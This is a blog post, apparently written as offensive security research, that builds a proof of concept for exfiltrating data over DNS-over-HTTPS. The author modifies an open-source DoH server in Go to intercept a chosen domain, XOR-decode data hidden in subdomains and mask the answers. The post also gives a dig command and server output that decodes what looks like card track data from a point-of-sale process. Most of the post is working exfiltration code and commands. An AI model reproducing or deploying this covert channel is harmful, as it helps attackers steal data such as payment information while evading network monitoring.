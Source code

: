 ```yaml
---
layout: post
title:  "Research into data exfiltration using DOH"
date:   2019-09-22 10:31:12 -0600
categories: exfiltration, c2
---
```


# Intro
Doing exfiltration over DNS isn't a new concept but recently there's been lots of people jumping on the DNS-over-HTTP(s)[[3]] bandwagon, which adds an interesting new layer to an existing TTP. This blog post is simply an aim to prove it's possibility.
We're going to start with existing code using a DOH server and client written by Star Brilliant[[1]]. This server and client are setup in a way that makes for easy testing where they allow the traffic to passthrough.


# Server
The relevant function in the server file is doDNSQuery which accepts a DNSRequest and then loops through the various upstreams to perform the DNS against. This would give us the ability to easily intercept, manipulate or otherwise inspect the requests that are sent. For a quick POC the idea I had was to add in a configuration value of a domain that we will look for, this means we will only look at decoding subdomains from specific requests and the rest will just passthrough as normal.

So we will add an element to the config structure which will tell the parser toml to look for and load the appropriate value in this case a value for our intercept domain.

```golang
	InterceptDomain  string   `toml:"intercept_domain"`
```

So in our configuration we will have:

```
intercept_domain = "google.com"
```

We will also need a function that can put back together the subdomain pieces, and if we want perform a decoding routine such as XOR.

```golang
func decodeData(data string) string {
	//fmt.Println(data)
	elements := strings.Split(data, string('.'))
	//elements = elements[:len(elements)-3]
	elements2 := strings.Join(elements[:len(elements)-3], string(""))
	blob, _ := hex.DecodeString(elements2)
	for i := 0; i < len(blob); i += 1 {
		blob[i] ^= 0xaa
	}
	return string(blob[:])

}
```

For interception we simply need to check if the request contains the target domain and if so keep a copy of the original host and overload the DNS question record with the target domain. This might seem silly but it prevents leaking our data to the upstream and also allows us to control every aspect of the answer to include overloading it if we so choose. It also muddies the water a bit when it comes to the fact that our fake subdomain resolves to the same IP as the real domain in the answer.

```golang
func (s *Server) doDNSQuery(ctx context.Context, req *DNSRequest) (resp *DNSRequest, err error) {
	// TODO(m13253): Make ctx work. Waiting for a patch for ExchangeContext from miekg/dns.
	numServers := len(s.conf.Upstream)
	//Here is the chance to hook into the request before relaying it forward
	//Need to just add code for checking for a configurable domain I think
	tgtDomain := s.conf.InterceptDomain
	origHost := req.request.Question[0].Name
	if strings.Contains(origHost, tgtDomain) {
		fmt.Println(decodeData(string(origHost)))
		//After decoding the data you would do a passthrough on the root domain without the subdomain data
		//Overwrite with original host
		newHost := retrieveHost(origHost)
		req.request.Question[0].Name = dns.Fqdn(newHost)
	}
```

Some simple code that just does a few checks and then if the original host contains the target domain we print out the decoded data and overwrite the question name with the root domain which in this case will be 'google.com'.

The only thing left will simply be replacing the response data with the original host.

```golang
		if err == nil {
			req.response.Answer[0].Header().Name = dns.Fqdn(origHost)
			req.response.Question[0].Name = dns.Fqdn(origHost)
			//Can overwrite with whatever IP
			/*
			rr := &dns.A{
			Hdr: dns.RR_Header{Name: dns.Fqdn(origHost), Rrtype: dns.TypeA, Class: dns.ClassINET, Ttl: 0},
			A:   net.ParseIP("127.0.0.1"),
			}
			req.response.Answer = []dns.RR{rr}
			*/
			//DEBUG
			//fmt.Println(req.response.Answer[0])
			//fmt.Println(req.response.Question[0])
			return req, nil
		}
		log.Printf("DNS error from upstream %s: %s\n", req.currentUpstream, err.Error())
	}
	return req, err
}
```

# POC execute

So let's test, I'm going to run the client from the git as a dns server pointed to 127.0.0.1 with my DOH server sitting on 8053. This just simplifies testing for me but you can also turn off the cert piece on the DOH server so that it doesn't use TLS and you can see the regular HTTP traffic pretty easily over loopback if you're interested in that.

```
$ dig c9c5c7da82f8cbc7cbdec2c5d8c484eee984efe484.e6e5e9868adad8c5c982dac5d984cfd2cf868acecbdecb82919.b98999e9f9c9d92939a9b98999e9e9.f9793939a9b9bf29b9af2f2f2f2f2f2f29a9a9a9a9a838383.google.com @127.0.0.1
```


On the server our decoded data is printed to the screen.

```
$ sudo ./doh-server


comp(Ramathorn.DC.EN.LOC, proc(pos.exe, data(;1234567890123445=99011X10XXXXXXX00000)))
```




References:  
 1. https://github.com/m13253/dns-over-https  
 2. https://tools.ietf.org/html/rfc8484  
 3. https://github.com/curl/curl/wiki/DNS-over-HTTPS  
 4. https://github.com/miekg/exdns  



 
 
 


[1]:https://github.com/m13253/dns-over-https
[2]:https://tools.ietf.org/html/rfc8484
[3]:https://github.com/curl/curl/wiki/DNS-over-HTTPS
[4]:https://github.com/miekg/exdns


